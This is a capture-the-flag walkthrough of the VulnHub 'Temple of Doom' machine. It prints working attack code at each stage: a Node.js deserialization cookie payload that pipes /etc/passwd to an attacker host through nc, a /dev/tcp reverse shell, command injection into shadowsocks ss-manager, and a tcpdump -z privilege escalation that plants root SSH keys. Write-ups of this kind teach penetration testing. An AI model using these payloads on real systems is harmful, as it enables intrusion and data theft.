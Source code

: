 # VULNIX

**URL: https://www.vulnhub.com/entry/temple-of-doom-1,243/**

### NMAP  
  
>Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-13 09:02 UTC  
>Nmap scan report for 192.168.111.3  
>Host is up (0.00044s latency).  
>Not shown: 998 closed ports  
>PORT    STATE SERVICE VERSION  
>22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)  
>| ssh-hostkey:   
>|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)  
>|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)  
>|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)  
>666/tcp open  http    Node.js Express framework  
>|_http-title: Site doesn't have a title (text/html; charset=utf-8).  
>MAC Address: 08:00:27:BB:24:1C (Oracle VirtualBox virtual NIC)  
>Device type: general purpose  
>Running: Linux 3.X|4.X  
>OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4  
>OS details: Linux 3.2 - 4.9  
>Network Distance: 1 hop  


### FIRST STEP: HTTP Cookie  

When we access the http service of the server we get the following message: "Under Construction, Come Back Later!". But, the second request throws an exception.
Reading the output of the error we know that there's something wrong with the unserialization of the cookie. If we decode the cookie we get something like:  

>{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires **\=\"\:** Friday, 13 Oct 2018 00:00:00 GMT"}  

We see that there's an error in the json format. When we correct this we get a "Hello Admin" message.  

Searching a bit, we find these document:  

https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf  

With this information, and playing with the output, we edit the exploit to make it work. In order to make it easier, we create a script to encode the requests:  

root@kali:~# cat cookie.py   

>import sys  
>import base64  
>  
>COOKIE='{"rce":"test","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires":"Friday, 13 Oct 2018 00:00:00 GMT","username":"_$$ND_FUNC$$_function (){ require(\'child_process\').exec(\'cat /etc/passwd | nc 192.168.111.4 8888\', function(error, stdout, stderr) { console.log(stdout) }); }()"}'  
>  
>print base64.b64encode(COOKIE)  


With this cookie, we make a request to the server:  

>root@kali:~# curl -H "Cookie: profile=$(python cookie.py)" "http://192.168.111.3:666/"  

And we get the content of /etc/passwd:  

root@kali:~# nc -nvlp 8888  
>listening on [any] 8888 ...  
>connect to [192.168.111.4] from (UNKNOWN) [192.168.111.3] 41624  
>root\:x\:0:0:root:/root:/bin/bash  
>...  
>nodeadmin\:x\:1001:1001::/home/nodeadmin:/bin/bash  
>fireman\:x\:1002:1002::/home/fireman:/bin/bash  

### SECOND STEP: REVERSE SHELL  

Now, let's get our reverse shell. With the following code:  
  
>"_$$ND_FUNC$$_function (){ require(\'child_process\').exec(\'/bin/bash -i >& /dev/tcp/192.168.111.4/8888 0>&1 \', function(error, stdout, stderr) { console.log(stdout) }); }()"  

We get our shell. But the first thing is getting an interactive shell, so let's exchange SSH keys and open a proper shell.  

root@kali:~# nc -nvlp 8888  
>listening on [any] 8888 ...  
>connect to [192.168.111.4] from (UNKNOWN) [192.168.111.3] 41628  
>bash: cannot set terminal process group (806): Inappropriate ioctl for device  
>bash: no job control in this shell  
>[nodeadmin@localhost ~]$   
>[nodeadmin@localhost ~]$ uname -a  
>Linux localhost.localdomain 4.16.3-301.fc28.x86_64 #1 SMP Mon Apr 23 21:59:58 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux  
>[nodeadmin@localhost ~]$ mkdir .ssh  
>[nodeadmin@localhost ~]$ chmod 700 .ssh  
>[nodeadmin@localhost ~]$ chmod 600 .ssh/authorized_keys  
>[nodeadmin@localhost ~]$ echo 'ssh-rsa AAAA...jf root@kali' > /home/nodeadmin/.ssh/authorized_keys  

Now we can login via SSH without being asked for the password.  

After trying harder, and harder... we look for stuff from the other user in the system until we find something interesting:  

[nodeadmin@localhost ~]$ grep -riI fireman /etc/  
>/etc/rc.d/rc.local:#su fireman -c /usr/local/bin/ss-manager  

We run "/usr/local/bin/ss-manager --help" and read that it's "shadowsocks-libev 3.1.0". Looking for info about this binary we find the following:  

https://www.x41-dsec.de/lab/advisories/x41-2017-010-shadowsocks-libev/  

There's a RCE vulnerability with this version. So after a lot of tests, we end up changing our crontab and adding the following line:  

[nodeadmin@localhost ~]$ crontab -l
>@reboot /bin/node /home/nodeadmin/.web/server.js &  
>**@reboot su fireman -c /usr/local/bin/ss-manager**  

We reboot the machine and find another port open, where it's running the ss-manager. So, we exploit this vulnerability to gain access as **fireman**:  

[nodeadmin@localhost ~]$ nc -u 127.0.0.1 8839  
>add: {"server_port":8003, "password":"test", "method":"||echo 'ssh-rsa AAAA...jf root@kali' > /home/fireman/.ssh/authorized_keys"}**ok**  

### THIRD STEP: PRIVILEGE ESCALATION 

And we get an OK. So now, we can login with fireman through SSH. Let's explore this way. Quickly we find that fireman can execute some stuff as root:

[fireman@localhost ~]$ sudo -l  
>Matching Defaults entries for fireman on localhost:  
>    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1  
>    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT  
>    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL  
>    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",  
>    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
>  
>User fireman may run the following commands on localhost:  
>    (ALL) NOPASSWD: /sbin/iptables  
>    (ALL) NOPASSWD: /usr/bin/nmcli  
>    (ALL) NOPASSWD: /usr/sbin/tcpdump  


nmcli? Where have I heard that before? **CVE-2018-1111**. And judging by the iptables config, it makes sense that we have to disable it first to exploit this vulnerability.  

[fireman@localhost ~]$ sudo iptables -L  
>Chain INPUT (policy ACCEPT)  
>target     prot opt source               destination           
>DROP       udp  --  anywhere             anywhere             udp spt:bootps dpt:bootpc  
>  
>Chain FORWARD (policy ACCEPT)  
>target     prot opt source               destination           
>  
>Chain OUTPUT (policy ACCEPT)  
>target     prot opt source               destination    

Here is a demo:

https://twitter.com/Barknkilic/status/996470756283486209  

But, let's explore another way. Why tcpdump? Reading the man page, we see some interesing flags: "[ -z postrotate-command ] [ -Z user ]"  

Let's try this. Creating a small script to do the same as before:  

[fireman@localhost ~]$ cat RCE  
>#/bin/bash  
>echo 'ssh-rsa AAA...zdzjf root@kali' > /root/.ssh/authorized_keys  

And executing it after a 1 second of capture.   

[fireman@localhost ~]$ sudo tcpdump -i eth0 -G 1 -z ./RCE -Z root  

Bingo, that was one way. Now we can login as root and read the flag:  

root@kali:~# ssh -l root 192.168.111.3  
>Last failed login: Sat Jul 14 15:06:59 EDT 2018  
>There were 3 failed login attempts since the last successful login.  
>Last login: Thu Jun  7 23:14:57 2018 from 192.168.2.15  
>[root@localhost ~]# id  
>uid=0(root) gid=0(root) groups=0(root)  
>[root@localhost ~]# ls -lrth  
>total 4.0K  
>-rw-r--r-- 1 root root 2.0K Jun  7 23:16 flag.txt  
